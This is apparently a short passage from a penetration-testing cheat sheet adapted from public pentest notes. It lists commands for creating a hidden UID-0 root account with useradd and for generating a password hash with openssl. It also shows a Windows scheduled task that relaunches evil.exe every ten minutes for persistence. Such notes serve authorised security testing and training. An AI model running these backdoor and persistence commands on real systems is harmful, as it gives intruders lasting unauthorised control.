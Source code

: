 ```bash
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

### Generating OpenSSL Password

```bash
openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

### Persistent Back Doors

```text
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).

